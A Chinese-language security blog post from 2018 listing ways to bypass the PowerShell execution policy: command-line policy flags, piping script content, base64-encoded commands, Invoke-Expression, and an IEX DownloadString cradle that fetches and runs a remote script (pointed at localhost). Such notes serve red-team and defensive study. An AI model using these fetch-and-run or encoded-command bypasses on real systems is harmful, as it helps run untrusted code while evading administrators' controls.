 ```yaml
---
title: "绕过 PowerShell 的执行策略"
date: 2018-05-04T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['powershell']
categories: ['bypass']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



PowerShell Execution Policy 是用来决定哪些类型的 PowerShell 代码可以在系统中运行.

```
Restricted - 不允许任何脚本运行.
AllSigned - 只能允许经过数字签名的脚本.
RemoteSigned - 运行本地脚本不需要数字签名 远程的需要.
Unrestricted - 允许任何脚本运行.
```

<!--more-->

查看当前的策略

```
Get-ExecutionPolicy
```

## Bypass

将 ExecutionPolicy 设置为 Bypass.

```
powershell.exe -ExecutionPolicy Bypass -File .\test.ps1
```

## UnRestricted

将 ExecutionPolicy 设置为 UnRestricted.

```
powershell.exe -ExecutionPolicy UnRestricted -File .\test.ps1
```

## RemoteSigned

将 ExecutionPolicy 设置为 RemoteSigned.

```
powershell.exe -ExecutionPolicy RemoteSigned -File .\test.ps1
```

## Pipe

通过管道执行脚本.

```
PGet-Content .\test.ps1 | powershell.exe -
```

类似的还有 type 命令.

```
type .\test.ps1 | powershell.exe -
```

## IEX

通过 IEX 远程下载脚本执行.

```
powershell.exe "IEX (New-Object Net.WebClient).DownloadString('http://localhost/test.ps1')"
```

## Encode

unicode + base64 编码执行.

```
$command = Get-Content .\test.ps1
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)
powershell.exe -EncodedCommand $encodedCommand
```

## Command

好像会有引号的转义问题, 更改了下执行的脚本.

```
echo "echo 'hello world'" > .\test.ps1
$command = Get-Content .\test.ps1
powershell -command "$command"
```

## Invoke-Expression (IEX)

Invoke-Expression 将它接受到的任何字符串当作 powershell 代码执行.

```
Get-Content .\test.ps1 | Invoke-Expression
```